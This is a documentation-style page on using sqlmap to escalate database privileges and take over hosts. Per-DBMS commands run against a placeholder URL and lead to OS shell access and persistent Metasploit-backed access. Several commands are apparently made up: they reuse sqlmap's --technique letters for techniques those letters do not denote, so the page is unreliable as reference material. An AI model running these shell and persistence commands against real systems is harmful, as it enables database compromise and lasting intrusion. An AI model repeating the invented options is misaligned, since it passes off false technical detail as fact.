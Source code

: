 ```yaml
---
title: Privilege Escalation
description: Learn how to perform privilege escalation using SQLMap's advanced techniques
---
```



SQLMap provides capabilities to check for and potentially exploit privilege escalation opportunities in various database management systems. These techniques can help identify and leverage excessive privileges during authorized security assessments.

## Checking Current Privileges

### Identifying Database User Privileges

To check the current database user's privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --privileges
```

This command displays all privileges assigned to the current database user.

### Checking DBA Status

To verify if the current user has database administrator privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --is-dba
```

This returns a boolean result indicating whether the current user has DBA privileges.

## Automated Privilege Escalation

SQLMap can attempt to automatically escalate privileges:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc
```

This command attempts various privilege escalation techniques based on the detected DBMS.

## DBMS-Specific Techniques

### MySQL Privilege Escalation

For MySQL, SQLMap can attempt:

1. User-Defined Function (UDF) injection:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mysql --technique=U
```

2. MOF (Managed Object Format) exploitation on Windows systems:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mysql --technique=M
```

### Microsoft SQL Server Privilege Escalation

For SQL Server, SQLMap can attempt:

1. `xp_cmdshell` re-enabling:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mssql
```

2. SQL Server Agent job creation (requires specific privileges):

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=mssql --technique=Q
```

### PostgreSQL Privilege Escalation

For PostgreSQL, SQLMap can attempt:

1. Custom function creation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=postgresql
```

2. Large object exploitation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=postgresql --technique=L
```

### Oracle Privilege Escalation

For Oracle, SQLMap can attempt:

1. PL/SQL injection:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=oracle
```

2. Java class loading:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --dbms=oracle --technique=J
```

## Gaining System Access

After privilege escalation, you can attempt to gain system access:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --os-shell
```

This combines privilege escalation with OS shell access attempts.

## Maintaining Access

To establish persistent access after privilege escalation:

```bash
sqlmap -u "http://www.example.com/vuln.php?id=1" --priv-esc --os-pwn
```

This attempts to create a more persistent connection using Metasploit integration.


## Troubleshooting Privilege Escalation

If privilege escalation attempts fail:

1. Verify the injection point supports stacked queries
2. Check if the database user has sufficient base privileges
3. Examine if security controls are preventing escalation
4. Try different techniques with the --technique parameter
5. Use verbose mode (-v) to get more detailed information about the attempts

Remember that privilege escalation success depends on:
- The specific DBMS version and configuration
- Existing security patches and controls
- The initial privileges of the compromised database user
- Operating system security settings
